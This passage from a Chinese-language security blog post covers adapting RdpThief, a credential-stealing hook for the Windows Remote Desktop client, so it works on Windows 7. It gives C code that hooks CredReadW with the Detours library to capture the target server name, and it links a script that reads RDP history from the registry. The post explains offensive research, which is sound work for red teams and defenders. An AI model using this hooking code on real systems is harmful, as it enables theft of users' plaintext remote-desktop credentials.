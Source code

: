 1.在Win10下没有问题

2.在Win7下能够获得输入的用户名和口令，但无法获得Server名称

#### 查找问题原因：

RdpThief在实现上通过捕获API SspiPrepareForCredRead()获得Server名称

在Win7系统下，我使用API monitor监控系统调用的API，发现不存在这个API，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-11-18/2-1.png)

找到问题的原因

#### 解决方法1：

通过搜索，发现API CredReadW() 能够记录Server名称，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-11-18/2-2.png)

所以可以尝试hook API CredReadW ，示例代码如下：

```
static BOOL(WINAPI *OriginalCredReadW)(LPCWSTR TargetName, DWORD Type, DWORD Flags, PCREDENTIALW *Credential) = CredReadW;
BOOL HookedCredReadW(LPCWSTR TargetName, DWORD Type, DWORD Flags, PCREDENTIALW *Credential)
{
	lpServer = TargetName;
	return OriginalCredReadW(TargetName, Type, Flags, Credential);
}
```

添加Attach和Detach代码：

```
DetourAttach(&(PVOID&)OriginalCredReadW, HookedCredReadW);
DetourDetach(&(PVOID&)OriginalCredReadW, HookedCredReadW);
```

#### 解决方法2：

远程桌面建立连接后会在注册表保存远程桌面连接的记录，这里可以通过读取远程桌面连接的历史记录获得Server名称

使用的脚本地址：

https://github.com/3gstudent/List-RDP-Connections-History/blob/master/ListLogged-inUsers.ps1


## 0x06 小结
---

本文介绍了使用Detours库hook系统API和使用API monitor监控系统API调用的方法，测试RdpThief，分享在Win7下使用时获得Server名称的方法，实现了从远程桌面客户端提取明文凭据。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)





